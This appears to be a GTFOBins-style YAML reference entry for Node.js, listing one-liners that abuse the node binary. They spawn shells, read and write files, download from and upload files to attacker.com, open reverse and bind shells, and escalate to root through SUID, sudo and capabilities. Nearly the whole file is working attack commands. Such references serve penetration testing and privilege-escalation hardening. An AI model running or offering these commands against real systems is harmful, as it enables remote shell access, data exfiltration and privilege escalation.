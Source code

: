 ```yaml
---
functions:
  shell:
    - code: |
        node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
  file-write:
    - code: node -e 'fs.writeFileSync("file_to_write", "DATA")'
  file-read:
    - code: node -e 'process.stdout.write(fs.readFileSync("/bin/ls"))'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        node -e 'http.get(process.env.URL, res => res.pipe(fs.createWriteStream(process.env.LFILE)))'
  file-upload:
    - description: Send a local file via HTTP POST request.
      code: |
        export URL=http://attacker.com
        export LFILE=file_to_send
        node -e 'fs.createReadStream(process.env.LFILE).pipe(http.request(process.env.URL))'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        node -e 'sh = child_process.spawn("/bin/sh");
        net.connect(process.env.RPORT, process.env.RHOST, function () {
          this.pipe(sh.stdin);
          sh.stdout.pipe(this);
          sh.stderr.pipe(this);
        })'
  bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        export LPORT=12345
        node -e 'sh = child_process.spawn("/bin/sh");
        net.createServer(function (client) {
          client.pipe(sh.stdin);
          sh.stdout.pipe(client);
          sh.stderr.pipe(client);
        }).listen(process.env.LPORT)'
  suid:
    - code: |
        ./node -e 'child_process.spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]})'
  sudo:
    - code: |
        sudo node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
  capabilities:
    - code: |
        ./node -e 'process.setuid(0); child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
---
```

